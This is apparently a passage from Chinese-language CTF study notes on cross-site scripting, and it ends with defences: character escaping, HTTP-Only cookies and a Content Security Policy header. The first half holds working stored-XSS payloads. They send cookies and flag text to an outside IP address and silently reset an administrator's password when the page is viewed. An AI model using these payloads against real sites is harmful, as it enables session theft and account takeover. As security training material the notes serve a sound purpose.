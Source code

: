 - `<script>window.location.href='http://47.94.236.117/get.php?c='+document.cookie</script>`

存储型-**Cookie凭据失效，需1步完成所需操作**

```javascript
<script> 
$('.laytable-cell-1-0-1').each(function(index,value){ 
    if(value.innerHTML.indexOf('ctf'+'show')>-1){ 
        
window.location.href='http://47.94.236.117/get.php?c='+value.inne
 rHTML;  
    } 
}); 
</script>
```

存储型-**借助修改密码重置管理员密码**

我们自己先注册一个账号，重置一下密码，开代理获取修改密码的数据包，其中有改密码的去文件的地址。然后注册新用户，将XSS写入密码。管理员登陆后台查看时，自动修改密码。

- GET   

  ```javascript
  <script>window.location.href='http://127.0.0.1/api/change.php?pass=123';</script>

- POST  

  ```javascript
  <script>$.ajax({url:'http://127.0.0.1/api/change.php',type:'post',data:{pass:'123'}});</script>

# 5.防御手段



## 1.过滤一些危险字符。转义`&<>‘ “`等危险字符。自定义过滤函数，网上有很多。



## 2.HTTP-Only

- 在php.ini设置`session.cookie_httponly = Ture`
- 在代码中加入`<?php setcookie("TestCookie", "TestValue", time()+3600, "/", "", false, true);?>`最后一个参数`true`将cookie设置为HTTP-Only，这意味着它不能通过JavaScript访问。
- 在代码中加入`<?php ini_set("session.cookie_httponly", True)`



## 3.CSP (Content Security Policy)

内容安全策略CSP是一种基于HTTP头的安全特性，可以帮助防止跨站脚本（XSS）、数据注入等攻击。CSP允许网站管理员指定允许加载和执行的资源来源，从而减少恶意内容的注入和执行的风险。

CSP通过定义一系列策略来控制网页中哪些资源可以被加载和执行。这些策略可以通过**HTTP头部**或者**HTML `<meta>` 标签传递**：

- ```php
  <?php 
  header("Content-Security-Policy: 
  default-src 'self'; 
  script-src 'self' https://trusted.cdn.com; 
  style-src 'self' 'unsafe-inline'; 
  img-src 'self' data:; 
  connect-src 'self'; 
  font-src 'self'; 
  object-src 'none'; 
  media-src 'self'; 
  frame-src 'self'; 
  form-action 'self'");
  ?>
  ```